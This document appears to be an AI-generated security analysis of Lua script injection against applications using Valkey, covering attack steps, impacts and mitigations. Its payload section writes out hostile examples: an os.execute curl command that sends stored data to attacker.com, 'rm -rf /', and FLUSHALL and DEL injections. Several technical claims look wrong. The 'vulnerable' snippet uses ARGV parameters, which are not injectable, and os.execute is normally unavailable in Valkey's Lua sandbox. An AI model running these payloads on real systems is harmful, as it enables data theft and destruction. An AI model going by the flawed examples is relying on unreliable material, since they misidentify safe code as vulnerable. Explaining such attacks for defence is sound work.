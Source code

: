 ## Deep Analysis: Exploit Lack of Input Sanitization in Script Execution [CRITICAL]

This analysis delves into the "Exploit Lack of Input Sanitization in Script Execution" attack tree path, focusing on its implications for an application utilizing Valkey. This path is marked as **CRITICAL** and **HIGH RISK**, reflecting its severe potential impact.

**Understanding the Vulnerability:**

At its core, this vulnerability stems from a fundamental security flaw: **trusting user-supplied data without proper validation and sanitization before using it in a sensitive context – in this case, the execution of Lua scripts within Valkey.**

Valkey, like Redis, allows the execution of Lua scripts for complex operations directly on the data store. This is a powerful feature, but it becomes a significant security risk if the script's logic incorporates external input without ensuring that input is safe.

**Detailed Breakdown of the Attack:**

1. **Attacker Identification of Input Points:** The attacker first needs to identify potential entry points where user-controlled data can influence the Lua scripts executed by Valkey. These entry points can include:
    * **Directly through application APIs:**  If the application exposes APIs that allow users to provide parameters that are directly used in Lua scripts.
    * **Indirectly through data stored in Valkey:** If the application stores user-provided data in Valkey that is later retrieved and used within a Lua script without sanitization.
    * **Configuration files or data sources:** While less direct, if the application reads configuration or data from external sources that are modifiable by an attacker and these are used in script generation, it could be a vector.

2. **Crafting Malicious Payloads:** Once an entry point is identified, the attacker crafts malicious input designed to inject arbitrary Lua code into the executed script. This can involve:
    * **Code Injection:** Inserting Lua commands that perform actions beyond the intended functionality. For example, commands to:
        * **Access and exfiltrate data:**  `redis.call('GET', 'sensitive_data')`, `os.execute('curl attacker.com -d "$(redis.call('GET', 'sensitive_data'))"')`
        * **Modify or delete data:** `redis.call('DEL', 'important_key')`, `redis.call('FLUSHALL')`
        * **Execute system commands:** `os.execute('rm -rf /')` (depending on Valkey's configuration and permissions).
        * **Introduce backdoors:**  Writing malicious scripts to Valkey for later execution.
    * **Function Overriding:**  Redefining existing Lua functions within the script to alter their behavior.
    * **Resource Exhaustion:**  Injecting code that consumes excessive resources, leading to denial of service.

3. **Exploiting the Lack of Sanitization:** The vulnerability lies in the application's failure to properly sanitize the input before incorporating it into the Lua script. This means:
    * **No escaping of special characters:** Characters like quotes (`'`, `"`) or backticks (`) are not escaped, allowing the attacker to break out of string literals and inject code.
    * **Direct concatenation of input:**  The application might directly concatenate user input into the Lua script string without any validation. For example:
        ```lua
        local key = ARGV[1]
        local value = ARGV[2]
        redis.call('SET', key, value) -- Vulnerable if key or value are not sanitized
        ```
        An attacker could provide `key` as `'mykey'); redis.call('FLUSHALL'); --` to inject a `FLUSHALL` command.
    * **Insufficient validation:**  The application might not check the type, format, or content of the input to ensure it's within expected boundaries.

4. **Valkey Script Execution:** When the application executes the constructed Lua script (containing the injected malicious code) on Valkey, the malicious commands are interpreted and executed by the Valkey server.

**Attack Vectors (Examples):**

* **Web Application with Search Functionality:** A web application allows users to search for items, and the search term is used in a Lua script to query Valkey. If the search term is not sanitized, an attacker could inject Lua code into the search term to execute arbitrary commands.
* **API Endpoint for Data Updates:** An API endpoint allows users to update data in Valkey. The user-provided data is directly incorporated into a Lua script for the update operation. Lack of sanitization allows for code injection.
* **Background Job Processing:** A background job processes data from an external source and uses it to interact with Valkey via Lua scripts. If the external data is compromised and not sanitized, malicious code can be injected.

**Impact and Consequences:**

The potential impact of this vulnerability is severe due to the ability to achieve **arbitrary code execution** on the Valkey server. This can lead to:

* **Complete Compromise of Valkey Instance:** The attacker can gain full control over the Valkey server, including accessing and modifying all data.
* **Data Breach and Exfiltration:** Sensitive data stored in Valkey can be accessed and exfiltrated by the attacker.
* **Data Manipulation and Corruption:** Attackers can modify or delete critical data, leading to application malfunction or data loss.
* **Denial of Service (DoS):** Malicious scripts can be injected to overload the Valkey server, causing it to become unresponsive.
* **Lateral Movement:** If the Valkey server has network access to other systems, the attacker can use it as a pivot point to attack other parts of the infrastructure.
* **Reputational Damage:** A successful attack can severely damage the reputation of the application and the organization.
* **Legal and Regulatory Consequences:** Data breaches can lead to legal and regulatory penalties.

**Technical Explanation:**

The vulnerability arises because Valkey's Lua scripting engine executes the provided script verbatim. If the script contains malicious code injected through unsanitized input, Valkey will execute that code without question.

Key Valkey commands that often involve Lua scripting and are therefore potential attack surfaces include:

* **`EVAL`:** Executes a Lua script.
* **`EVALSHA`:** Executes a Lua script by its SHA1 digest.
* **`FUNCTION LOAD`:** Loads a Lua function into Valkey.

If the arguments passed to these commands (or the content of the loaded functions) are derived from unsanitized user input, the vulnerability is present.

**Mitigation Strategies and Recommendations:**

Addressing this critical vulnerability requires a multi-layered approach:

* **Strict Input Sanitization:** This is the **most crucial step**. All user-provided data that might be used in Lua scripts must be rigorously sanitized. This includes:
    * **Escaping Special Characters:** Escape characters like single quotes, double quotes, backticks, and backslashes that have special meaning in Lua.
    * **Whitelisting:**  Define an allowed set of characters or patterns for input and reject anything that doesn't conform.
    * **Input Validation:**  Validate the type, format, and length of the input to ensure it meets expectations.
    * **Parameterization:**  If possible, use parameterized queries or script execution where user input is treated as data rather than code. While Valkey's Lua scripting is dynamic, aim for patterns that separate code structure from data.

* **Principle of Least Privilege:** Ensure that the Valkey instance and the user running it have the minimum necessary permissions. This limits the potential damage an attacker can cause even if they achieve code execution.

* **Secure Coding Practices:**
    * **Code Reviews:**  Thoroughly review code that constructs and executes Lua scripts to identify potential injection points.
    * **Static Analysis Tools:** Utilize static analysis tools to automatically detect potential vulnerabilities in the code.
    * **Dynamic Analysis (Penetration Testing):**  Conduct regular penetration testing to simulate real-world attacks and identify weaknesses.

* **Content Security Policy (CSP):** While primarily a web browser security mechanism, if the application has a web frontend, a strong CSP can help mitigate the impact of injected scripts in the browser context.

* **Regular Updates:** Keep Valkey and any related libraries up-to-date with the latest security patches.

* **Consider Alternatives to Dynamic Script Generation:** If possible, explore alternative approaches that minimize the need to dynamically generate Lua scripts based on user input. Pre-defined scripts with parameterized data input can be a safer option.

* **Monitoring and Logging:** Implement robust monitoring and logging to detect suspicious activity, including attempts to execute unusual Lua commands.

**Conclusion:**

The "Exploit Lack of Input Sanitization in Script Execution" attack path represents a severe security risk for applications using Valkey. The potential for arbitrary code execution makes this a **critical vulnerability** that must be addressed with the highest priority. By implementing strict input sanitization, following secure coding practices, and adhering to the principle of least privilege, development teams can significantly reduce the risk of this devastating attack. Ignoring this vulnerability can lead to significant security breaches, data loss, and reputational damage. A proactive and diligent approach to security is essential to protect the application and its users.
